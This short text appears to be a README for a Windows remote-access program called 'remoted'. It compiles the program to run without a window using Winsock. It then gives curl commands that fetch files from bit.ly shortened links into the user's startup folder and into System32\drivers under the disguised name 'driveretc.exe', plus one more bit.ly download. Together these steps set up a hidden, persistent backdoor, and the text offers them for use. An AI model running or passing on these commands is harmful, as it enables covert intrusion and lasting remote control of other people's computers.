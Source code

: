 # Comp
# cmd:
```
g++ remoted.cpp -o remoted.exe -lws2_32 -mwindows
```

win + u cmds
```
curl bit.ly/4nZAfiq --output shell:startup
```
```
curl bit.ly/44IsndH --output C:\Windows\System32\drivers\driveretc.exe
```

main
```
curl bit.ly/46oL1IP
```
